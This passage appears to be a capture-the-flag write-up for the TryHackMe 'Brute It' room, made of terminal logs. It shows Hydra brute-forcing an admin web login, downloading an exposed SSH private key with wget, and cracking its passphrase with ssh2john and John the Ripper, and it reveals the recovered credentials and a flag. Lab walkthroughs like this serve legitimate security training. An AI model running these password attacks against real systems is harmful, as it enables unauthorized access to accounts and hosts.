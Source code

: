 `/admin`

[view-source:http://10.10.16.131/admin/](view-source:http://10.10.16.131/admin/)

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

```
bibo318@parrot:~/CTFs/tryhackme/Brute It$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.16.131 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 20:55:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.16.131:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.16.131   login: admin   password: xavier
[STATUS] attack finished for 10.10.16.131 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 20:56:09
```

```

Hello john, finish the development of the site, here's your RSA private key.


THM{V0N318*****brut3_f0rce_is_e4sy}
```

```
bibo318@parrot:~/CTFs/tryhackme/Brute It$ wget http://10.10.16.131/admin/panel/id_rsa
--2020-11-14 20:56:51--  http://10.10.16.131/admin/panel/id_rsa
Connecting to 10.10.16.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K)
Saving to: ‘id_rsa’

id_rsa                                           100%[=======================================================================================================>]   1.72K  --.-KB/s    in 0s

2020-11-14 20:56:51 (162 MB/s) - ‘id_rsa’ saved [1766/1766]

bibo318@parrot:~/CTFs/tryhackme/Brute It$ chmod 600 id_rsa
bibo318@parrot:~/CTFs/tryhackme/Brute It$ ssh -i id_rsa john@10.10.16.131
The authenticity of host '10.10.16.131 (10.10.16.131)' can't be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.16.131' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':

bibo318@parrot:~/CTFs/tryhackme/Brute It$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
bibo318@parrot:~/CTFs/tryhackme/Brute It$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
```